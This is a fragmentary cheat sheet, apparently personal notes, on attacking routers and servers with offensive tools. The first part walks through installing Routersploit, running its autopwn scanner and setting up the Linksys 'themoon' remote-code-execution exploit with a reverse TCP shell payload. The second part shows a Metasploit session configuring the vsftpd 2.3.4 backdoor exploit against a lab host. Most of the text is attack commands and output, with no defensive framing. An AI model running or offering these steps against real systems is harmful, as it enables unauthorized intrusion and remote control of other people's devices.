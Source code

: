 # Routersploit

blupy
apt update && apt install routersploit

https://github.com/threat9/routersploit

python3 rsf.py
cd /routerspoit
show all
search cisco
search type=exploits
search device=cameras
exit
git pull

Real Exploit. 
ping 192.168.0.1

ls
/root/routersploit

rsf.py
show options

set
run

use scanners/autopwn
show options

set target 192.168.0.1

run
use exploits/

use exploits/routers/
use exploits/routers/tplink

use exploits/routers/linksys/eseries_themoon_rce
show options
set target
run

show payloads
set payload mipsle/revers_tcp

ifconfig
set lhost ipaddress
run

## Riposte


## Reconosence


nmap target 
vsftpd

https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor

In Kali
Metasploit tip: View all productivity tips with the tips command

msf5 > search vsftpd
                                                               
Matching Modules                                               
================                                               
                                                                  
   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution               


msf5 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOST 10.0.2.4
RHOST => 10.0.2.4
msf5 exploit(unix/ftp/vsftpd_234_backdoor) > show options

Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.0.2.4         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   21               yes       The target port (TCP)


Exploit target:

   Id  Name
   --  ----
   0   Automatic
